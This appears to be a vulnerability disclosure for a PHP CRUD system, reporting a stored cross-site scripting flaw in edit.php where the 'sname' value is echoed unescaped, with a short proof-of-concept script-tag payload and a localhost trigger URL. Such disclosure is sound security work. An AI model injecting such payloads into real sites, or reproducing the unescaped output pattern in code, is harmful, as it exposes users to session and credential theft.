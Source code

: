 # crud-operation-system-in-php has Based Cross Site Scripting vulnerability in edit.php

## supplier 
https://code-projects.org/crud-operation-system-in-php-with-source-code/
## Vulnerability file
edit.php and sname parameter
## describe
There is an  Cross Site Scripting vulnerability in f crud system  in edit.php,  Control parameter: sname

Malicious attackers can use this cross-site scripting vulnerability to conduct phishing attacks and obtain administrator login information and permissions.

**Code analysis**

```
 <input type="text" name="sname" value="<?php echo $row['sname']; ?>"/>
```

echo $row['sname']; in no filter. 

![image-20241123145102714](https://github.com/user-attachments/assets/daf1e06b-58aa-4b72-892e-6a3e5bdf47a8)

## POC

sname insert into database;

```
"/><script>alert(2);</script>
```

![image-20241123145916800](https://github.com/user-attachments/assets/95a3c636-1a72-4397-afb0-1b738e4906e0)

Visit this URL to trigger the cross-site scripting vulnerability.

```
http://localhost/crud/edit.php?id=1
```

**Result**

![image-20241123145929562](https://github.com/user-attachments/assets/b0f5321b-fcbf-4264-be4e-827c133233d8)

 